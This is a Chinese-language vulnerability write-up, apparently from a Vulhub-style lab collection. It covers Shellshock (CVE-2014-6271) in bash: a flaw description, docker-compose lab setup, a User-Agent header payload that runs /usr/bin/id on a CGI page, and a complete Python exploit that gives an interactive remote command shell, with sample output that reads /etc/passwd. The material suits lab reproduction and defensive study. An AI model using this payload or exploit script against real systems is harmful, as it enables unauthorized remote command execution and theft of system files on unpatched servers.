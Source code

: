# Shellshock 破壳漏洞 CVE-2014-6271

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![image-20220303150635558](images/202203031506623.png)

同样的数据包访问safe.cgi，不受影响：

![image-20220303150542827](images/202203031505938.png)

## 漏洞EXP

```python
#!/usr/bin/python

# Successful Output:
# # python shell_shocker.py <VulnURL>
# [+] Attempting Shell_Shock - Make sure to type full path
# ~$ /bin/ls /
# bin
# boot
# dev
# etc
# ..
# ~$ /bin/cat /etc/passwd

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)

```

